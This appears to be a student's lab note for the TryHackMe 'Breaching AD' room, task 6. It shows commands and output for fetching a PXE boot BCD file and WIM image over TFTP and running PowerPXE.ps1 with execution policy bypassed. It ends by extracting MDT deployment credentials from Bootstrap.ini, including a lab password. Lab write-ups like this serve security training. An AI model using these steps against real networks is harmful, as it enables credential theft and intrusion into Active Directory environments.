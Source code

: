 
https://tryhackme.com/room/breachingad task 6

A new dhcp lease should contain PXE boot info. This will show where files will be downloaded from. Example:
![[Images/Pasted image 20250306191833.png]]

Let's download the file:
```sh
thm@THMJMP1 C:\Users\thm\Documents\sofia>tftp -i 10.200.80.202 GET "\Tmp\x64{B4E41F0D-B655-4EA8-8AC5-45274C840FB9}.bcd" conf.bcd
Transfer successful: 12288 bytes in 1 second(s), 12288 bytes/s
```

We can use tools like `PowerPXE.ps1`:
```sh
thm@THMJMP1 C:\Users\thm\Documents\sofia>powershell -executionpolicy bypass
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\thm\Documents\sofia> Import-Module .\PowerPXE.ps1
```

We get the actual image path from this file:
```sh
PS C:\Users\thm\Documents\sofia> $BCDFile = "conf.bcd"
PS C:\Users\thm\Documents\sofia> Get-WimFile -bcdFile $BCDFile
>> Parse the BCD file: conf.bcd
>>>> Identify wim file : \Boot\x64\Images\LiteTouchPE_x64.wim
\Boot\x64\Images\LiteTouchPE_x64.wim
```

Let's download the file:
```sh
PS C:\Users\thm\Documents\sofia> tftp -i 10.200.80.202 GET "\Boot\x64\Images\LiteTouchPE_x64.wim" pxeboot.wim
Transfer successful: 341899611 bytes in 183 second(s), 1868303 bytes/s
```

There also are tools to extract the username and password used for the installation from the file (we could also extract if and check `Bootstrap.ini`)
```sh
PS C:\Users\thm\Documents\sofia> Get-FindCredentials -WimFile pxeboot.wim
>> Open pxeboot.wim
>>>> Finding Bootstrap.ini
>>>> >>>> DeployRoot = \\THMMDT\MTDBuildLab$
>>>> >>>> UserID = svcMDT
>>>> >>>> UserDomain = ZA
>>>> >>>> UserPassword = PXEBootSecure1@
```

DeployRoot = \\THMMDT\MTDBuildLab$
UserID = svcMDT
UserDomain = ZA
UserPassword = PXEBootSecure1@

